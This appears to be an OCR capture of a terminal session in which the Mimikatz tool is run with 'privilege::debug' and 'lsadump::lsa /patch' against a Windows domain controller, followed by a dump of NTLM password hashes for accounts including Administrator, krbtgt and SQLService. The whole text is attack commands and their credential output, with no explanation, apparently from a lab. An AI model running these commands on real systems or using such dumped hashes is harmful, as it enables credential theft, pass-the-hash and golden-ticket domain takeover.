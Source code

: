     mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::lsa /patch
    Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

    RID  : 000001f4 (500)
    User : Administrator
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6

    RID  : 000001f5 (501)
    User : Guest
    LM   :
    NTLM :

    RID  : 000001f6 (502)
    User : krbtgt
    LM   :
    NTLM : 5508500012cc005cf7082a9a89ebdfdf

    RID  : 0000044f (1103)
    User : Machine1
    LM   :
    NTLM : 64f12cddaa88057e06a81b54e73b949b

    RID  : 00000451 (1105)
    User : Admin2
    LM   :
    NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

    RID  : 00000452 (1106)
    User : Machine2
    LM   :
    NTLM : c39f2beb3d2ec06a62cb887fb391dee0

    RID  : 00000453 (1107)
    User : SQLService
    LM   :
    NTLM : f4ab68f27303bcb4024650d8fc5f973a

    RID  : 00000454 (1108)
    User : POST
    LM   :
    NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

    RID  : 00000457 (1111)
    User : sshd
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6

    RID  : 000003e8 (1000)
    User : DOMAIN-CONTROLL$
    LM   :
    NTLM : aaef917074163b7c853c3f019f33bcd9
